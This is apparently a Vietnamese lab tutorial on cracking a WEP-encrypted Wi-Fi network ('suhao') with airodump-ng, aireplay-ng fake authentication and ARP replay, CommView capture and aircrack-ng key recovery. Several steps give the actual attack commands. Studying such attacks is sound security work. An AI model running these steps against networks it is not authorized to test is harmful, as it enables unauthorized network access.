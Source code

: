 # Airodump-ng

## Bước 1 - Tìm đối tượng

Sử dụng **airodump-ng** để tìm kiếm các access point (AP) đang dùng mã hóa WEP:

```sh
$ airodump-ng wlan0mon
```

![Dùng airodump tìm kiếm access point](images/airodumpforvictim.png)

Các thông tin cần chú ý:

- BSSID: **7C:8B:CA:2E:62:CE**
- ESSID: **suhao**
- Channel: **9**

Chuyển channel của wlan0mon sang cùng channel với AP:

```sh
$ iwconfig wlan0mon channel 9
```

## Bước 2 - Kiểm tra packet injection

Bước này thực hiện để chắc chắn rằng card wifi đang nằm trong phạm vi của AP và có thể thực hiện packet injection vào nó.

```sh
aireplay-ng -9 -a 7C:8B:CA:2E:62:CE wlan0mon
```

![Test packet injection](images/testinjectionpacket.png)

Nếu phần trăm kết quả trả về quá thấp hay bằng 0 thì packet injection sẽ không hoạt động.

## Bước 3 - Dùng airodump-ng để bắt các IV

Ở bước này sử dụng công cụ **airodump-ng** để bắt các IV được AP tạo ra.

```sh
$ airodump-ng -c 9 --bssid 7C:8B:CA:2E:62:CE -w output wlan0mon
```

![Test packet injection](images/airodumpforiv.png)

## Bước 4 - Sử dụng aireplay để fake authentication

```sh
$ aireplay-ng -1 0 -a 7C:8B:CA:2E:62:CE -h A4:E9:75:4B:D6:D9 wlan0mon
```

![](images/aireplay1.png)

## Bước 5 - Dùng aireplay trong ARP replay mode

![Test packet injection](images/aireplayarp.png)

## Bước 6 - Kết quả

![Test packet injection](images/enoughdata.png)
![Test packet injection](images/result1.png)

# CommView

Đầu tiên, Start capture với Single channel mode (chọn channel của AP mục tiêu) trên CommView.

![CommView](images/Commview/cv1.png)

Sau đó, thực hiện fake authentication và arp packet injection như trên để AP tạo ra nhiều IV hơn.

![CommView](images/Commview/cv2.png)

Sau khi thu được đủ packet, thực hiện export những file log thành file cap để đưa vào aircrack.

![CommView](images/Commview/cv3en.png)

Thực hiện tìm key với aircrack-ng và file cap vừa export.

![CommView](images/Commview/cv4rs.png)
